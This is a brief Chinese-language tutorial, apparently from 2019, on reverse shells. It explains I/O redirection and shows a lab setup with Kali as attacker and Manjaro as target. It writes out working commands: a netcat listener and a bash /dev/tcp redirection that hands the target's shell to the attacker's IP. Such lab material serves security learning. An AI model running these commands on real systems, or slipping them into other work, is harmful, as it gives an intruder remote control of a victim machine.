 ```yaml
---        
#    <center>反向shell</center>
反向shell就是让目标机器主动通过某一端口连接攻击机器，攻击端可以通过这一端口发送命令控制目标机器。通常用于防火墙受限，端口被占用等情形，反向shell可以让目标机器精准连接攻击端。

##    重定向
一个程序的运行一般涉及到输入，输出，错误。shell内部定义为标准输入，标准输出，标准错误，并用文件描述符0,1,2来表示它们。

正常情况下，输入来自键盘，输出和错误送到屏幕。重定向则是允许改变输入输出的流向。反向shell就是基于此，在目标机器发起连接到攻击端后，将所有的输出都定向到攻击端，大大增加了控制的隐蔽性。

##    bash 反向shell
攻击端kali, 目标段manjaro

kali 监听端口：
```
nc -lvp 3333
```
manjaro 系统执行:
```
bash -i > /dev/tcp/172.16.111.128/3333
```
![](https://i.loli.net/2019/10/24/Q9SlRqupBtJegZO.png)

终端的输出被定向到kali。现在只需要再把标准输入和标准错误定向同时定向到kali端。

manjaro 系统执行:
```
bash -i > /dev/tcp/172.16.111.128/3333 2>&1 0>&1
```
![](https://i.loli.net/2019/10/24/Z9eCKYWHRNLB8cQ.png)

此时输入输出都在kali端显示。




 2019-10-13 13:51:02
 
---           
```

